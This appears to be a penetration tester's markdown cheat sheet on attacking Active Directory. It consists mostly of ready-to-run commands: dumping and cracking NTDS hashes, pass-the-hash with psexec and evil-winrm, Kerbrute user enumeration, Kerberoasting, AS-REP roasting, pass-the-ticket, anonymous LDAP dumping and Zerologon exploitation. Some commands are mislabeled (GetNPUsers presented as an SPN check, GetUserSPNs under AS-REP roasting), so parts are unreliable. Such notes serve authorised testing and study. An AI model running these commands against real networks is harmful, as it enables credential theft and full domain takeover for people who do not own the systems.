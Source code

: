 # Active Directory Exploitation  
## Contents
- [Active Directory Exploitation](#active-directory-exploitation)
  * [Contents](#contents)
  * [NTLM Authentication](#ntlm-authentication)
    + [Impacket Scripts](#impacket-scripts)
  * [Kerberos (Port 88)](#kerberos--port-88-)
  * [Kerberos Attacks](#kerberos-attacks)
    + [Kerbrute Enumeration](#kerbrute-enumeration)
    + [Kerberoasting](#kerberoasting)
    + [AS-REP Roasting with Rubeus and Impacket](#as-rep-roasting-with-rubeus-and-impacket)
    + [Golden / Silver Ticket Attacks:](#golden---silver-ticket-attacks-)
    + [Overpass The Hash/Pass The Key (PTK):](#overpass-the-hash-pass-the-key--ptk--)
    + [Pass the Ticket](#pass-the-ticket)
    + [Skeleton Key Attacks using Mimikatz](#skeleton-key-attacks-using-mimikatz)
  * [LDAP (Port 636)](#ldap--port-636-)
  * [Other Exploits](#other-exploits)
  
## NTLM Authentication
### Impacket Scripts  
psexec.py, smbexec.py, wmiexec.py   
If you have creds for the backup account for domain controller: can dump all hashes    

    python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc backup:backuppassword@domain.local
    
Use secretsdump.py to dump hashes and hash history from Active Directory database (NTDS.dit) and the SYSTEM registry hive. Password history can be helpful for password reuse attacks.            

    python3 secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL -outputfile dc-hashes -history     
    sed -i '/$:/d' dc-hashes.ntds     #remove machine accounts (end with $:)     
    hashcat -m 1000 -a 0 dc-hashes.ntds ~/path_to_wordlist   #crack NT hashes with a wordlist attack      
    
Pass the Hash: use psexec or evil-winrm to login with username/ hash (doesn't need to be cracked)    

    python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 "./Administrator"@192.168.204.183    
    evi-winrm -i 127.0.0.1 -u username -H [NTLM hash]   

## Kerberos (Port 88)   
Tools: [Kerbrute](https://github.com/ropnop/kerbrute), [Rubeus](https://github.com/GhostPack/Rubeus)   
[Messing With Kerberos Using Rubeus](https://endark.gitbook.io/kb/windows/lab-attacks/messing-with-kerberos-using-rubeus) 
[Kerberos Tickets](https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel)   
[Kerberos Cheat Sheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)  
[How Kerberos Works](https://www.tarlogic.com/blog/how-kerberos-works/)  


    ./kerbrute userenum userlist.txt -d [name] --dc [name]     
    
## Kerberos Attacks 

Kerbrute Enumeration (No domain access needed) 

Kerberoasting (Access as any user needed) 

AS-REP Roasting with Rubeus and Impacket (Access as any user needed)  

Overpass the Hash / Pass the Key (PTK)  

Pass the Ticket (Access to user on the domain needed)  

Golden/Silver Ticket Attacks (krbtgt or domain admin hash needed / Service hash needed) 

Skeleton key attacks using mimikatz (Domain Admin hneeded) 

### Kerbrute Enumeration 
No domain access needed 

Kerbrute: https://github.com/ropnop/kerbrute
/usr/share/wordlists/ADUsers.txt

### Kerberoasting  
Check for Kerberoasting with Impacket -> SPNs 

    GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john

Kerberoasting with Impacket

    python3 GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>  
    sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip <ip> -request
     
 Kerberoasting with Rubeus (install on Windows host in domain) 
 
    rubeus.exe kerberoast 
 
Crack passwords with hashcat 

    hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/ADPass.txt
    13100: kerberos 5, 0: straight attack mode

### AS-REP Roasting with Rubeus and Impacket
Get a list of valid users: ASREProasting to see if any of them do not have pre-auth set and can request a Kerberos ticket without a password. Crack hashes with hashcat        

    python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py domain.local/ -no-pass -usersfile users.txt         
     

ASREPRoast with Impacket:

    impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
    impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

ASREP Roast with Rubeus:

### Golden / Silver Ticket Attacks: 
Golden ticket: use krbtgt password hash to form a Ticket Granting Ticket (allows authentication to any Kerberos service)   
### Overpass The Hash/Pass The Key (PTK):
Impacket 

    python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
    python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
    python3 getTGT.py <domain_name>/<user_name>:[password]

### Pass the Ticket 
Using TGT key to execute remote commands from the following impacket scripts:

    python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
    python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
    python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

### Skeleton Key Attacks using Mimikatz 

## LDAP (Port 636)
Anonymous Credential LDAP Dumping: 

    ldapsearch -LLL -x -H ldap://<domain fqdn> -b '' -s base '(objectclass=*)'

Impacket GetADUsers.py (Must have valid credentials)

    GetADUsers.py -all <domain\User> -dc-ip <DC_IP>

Impacket lookupsid.py:

    /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0

Impacket Secretdump:

    python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

    python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U
    
## Other Exploits
[Print Nightmare Walkthrough](https://themayor.notion.site/341cf3705cc64752b466046584de45b8?v=4f2173ad749249b293a89ab5391805ec&p=ef69c17e82c5471fb4648ccabbf5c937) 
impersonate DA from standard domain user   
https://github.com/WazeHell/sam-the-admin   

Zerologon    
Testing script, use cme to extract the DC name.    
https://github.com/SecuraBV/CVE-2020-1472    

    python3 zerologon_tester.py EXAMPLE-DC 1.2.3.4    
Use zer0dump to dump hash of admin password:  
 
    zer0dump.py 192.168.0.5 -port 445    
RCE through pass the hash: 

    psexec.py -hashes [hash] Administrator@192.168.0.5   
